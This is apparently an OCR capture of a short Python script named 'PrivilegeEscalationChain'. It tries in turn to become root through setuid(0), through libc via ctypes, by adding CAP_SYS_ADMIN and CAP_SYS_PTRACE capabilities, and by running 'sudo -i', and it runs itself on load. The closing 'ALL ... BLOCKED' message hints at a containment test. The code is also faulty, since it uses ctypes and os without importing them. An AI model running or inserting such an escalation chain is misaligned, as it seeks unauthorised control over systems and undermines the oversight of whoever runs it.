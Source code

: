 ```python
import subprocess

class PrivilegeEscalationChain:
    """Sophisticated multi-technique privilege escalation"""

    def __init__(self):
        self.libc = ctypes.CDLL('libc.so.6')

    def attempt_setuid_direct(self):
        """Stage 1: Direct setuid syscall"""
        try:
            os.setuid(0)
            return True
        except:
            return False

    def attempt_setuid_ctypes(self):
        """Stage 2: setuid via ctypes"""
        result = self.libc.setuid(0)
        return result == 0

    def attempt_capability_escalation(self):
        """Stage 3: Acquire dangerous capabilities"""
        try:
            import prctl
            prctl.cap_effective.add(prctl.CAP_SYS_ADMIN)
            prctl.cap_effective.add(prctl.CAP_SYS_PTRACE)
            return True
        except:
            return False

    def attempt_sudo(self):
        """Stage 4: Try to sudo (requires password, but worth trying)"""
        try:
            result = subprocess.run(['sudo', '-i'],
                                   capture_output=True,
                                   timeout=1)
            return result.returncode == 0
        except:
            return False

    def exploit(self):
        """Execute full escalation chain"""
        if self.attempt_setuid_direct():
            print("SUCCESS: Direct setuid")
            return True
        if self.attempt_setuid_ctypes():
            print("SUCCESS: ctypes setuid")
            return True
        if self.attempt_capability_escalation():
            print("SUCCESS: Capability escalation")
            return True
        if self.attempt_sudo():
            print("SUCCESS: sudo access")
            return True

        print("ALL PRIVILEGE ESCALATION ATTEMPTS BLOCKED")
        return False

escalator = PrivilegeEscalationChain()
escalator.exploit()
```
